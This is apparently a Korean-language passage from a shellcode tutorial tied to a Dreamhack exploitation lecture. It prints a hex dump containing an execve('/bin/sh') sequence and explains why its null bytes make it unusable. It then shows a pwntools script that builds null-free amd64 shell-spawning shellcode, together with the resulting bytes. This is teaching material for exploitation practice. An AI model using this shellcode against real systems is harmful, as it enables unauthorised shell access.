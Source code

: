 ```bash
\x48\x83\xec\x08\x48\x8b\x05\x25\x0b\x20\x00\x48\x85\xc0\x74\x02\xff\xd0\x48\x83\xc4\x08\xc3\xff\x35\xf2\x0a\x20\x00\xff\x25\xf4\x0a\x20\x00\x0f\x1f\x40\x00\xff\x25\x12\x0b\x20\x00\x66\x90\x31\xed\x49\x89\xd1\x5e\x48\x89\xe2\x48\x83\xe4\xf0\x50\x54\x4c\x8d\x05\xaa\x01\x00\x00\x48\x8d\x0d\x33\x01\x00\x00\x48\x8d\x3d\x0f\x01\x00\x00\xff\x15\xc6\x0a\x20\x00\xf4\x0f\x1f\x44\x00\x00\x48\x8d\x3d\xe9\x0a\x20\x00\x55\x48\x8d\x05\xe1\x0a\x20\x00\x48\x39\xf8\x48\x89\xe5\x74\x19\x48\x8b\x05\x9a\x0a\x20\x00\x48\x85\xc0\x74\x0d\x5d\xff\xe0\x66\x2e\x0f\x1f\x84\x00\x00\x00\x00\x00\x5d\xc3\x0f\x1f\x40\x00\x66\x2e\x0f\x1f\x84\x00\x00\x00\x00\x00\x48\x8d\x3d\xa9\x0a\x20\x00\x48\x8d\x35\xa2\x0a\x20\x00\x55\x48\x29\xfe\x48\x89\xe5\x48\xc1\xfe\x03\x48\x89\xf0\x48\xc1\xe8\x3f\x48\x01\xc6\x48\xd1\xfe\x74\x18\x48\x8b\x05\x61\x0a\x20\x00\x48\x85\xc0\x74\x0c\x5d\xff\xe0\x66\x0f\x1f\x84\x00\x00\x00\x00\x00\x5d\xc3\x0f\x1f\x40\x00\x66\x2e\x0f\x1f\x84\x00\x00\x00\x00\x00\x80\x3d\x59\x0a\x20\x00\x00\x75\x2f\x48\x83\x3d\x37\x0a\x20\x00\x00\x55\x48\x89\xe5\x74\x0c\x48\x8b\x3d\x3a\x0a\x20\x00\xe8\x0d\xff\xff\xff\xe8\x48\xff\xff\xff\xc6\x05\x31\x0a\x20\x00\x01\x5d\xc3\x0f\x1f\x80\x00\x00\x00\x00\xf3\xc3\x66\x0f\x1f\x44\x00\x00\x55\x48\x89\xe5\x5d\xe9\x66\xff\xff\xff\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05\x55\x48\x89\xe5\xb8\x00\x00\x00\x00\xe8\xc9\xff\xff\xff\xb8\x00\x00\x00\x00\x5d\xc3\x0f\x1f\x84\x00\x00\x00\x00\x00\x41\x57\x41\x56\x49\x89\xd7\x41\x55\x41\x54\x4c\x8d\x25\x9e\x07\x20\x00\x55\x48\x8d\x2d\x9e\x07\x20\x00\x53\x41\x89\xfd\x49\x89\xf6\x4c\x29\xe5\x48\x83\xec\x08\x48\xc1\xfd\x03\xe8\x47\xfe\xff\xff\x48\x85\xed\x74\x20\x31\xdb\x0f\x1f\x84\x00\x00\x00\x00\x00\x4c\x89\xfa\x4c\x89\xf6\x44\x89\xef\x41\xff\x14\xdc\x48\x83\xc3\x01\x48\x39\xdd\x75\xea\x48\x83\xc4\x08\x5b\x5d\x41\x5c\x41\x5d\x41\x5e\x41\x5f\xc3\x90\x66\x2e\x0f\x1f\x84\x00\x00\x00\x00\x00\xf3\xc3\x48\x83\xec\x08\x48\x83\xc4\x08\xc3
```

명령어를 실행해보면 긴 쉘코드가 출력되긴하는데, 이 쉘코드는 쓸 수 없습니다.

왜냐하면 쉘코드 사이에 있는 `\x00`이 끝으로 인식되어 중간에 쉘코드가 잘리기 때문입니다.

이 문제를 해결하려면 `\x00` 가 안 생기도록 쉘코드를 다시 짜야하기 때문에 그냥 간단하게 `pwntools` 로 쉘코드를 짜보겠습니다.


<br>

```python
from pwn import *

context.arch = "amd64"

code = shellcraft.sh()
shellcode = asm(code)

print("shellcode: ", shellcode)
```

```bash
$ python3 shellcode.py
shellcode:  b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
```


---

<br>

> [Exploit Tech: Shellcode](https://dreamhack.io/lecture/courses/50)
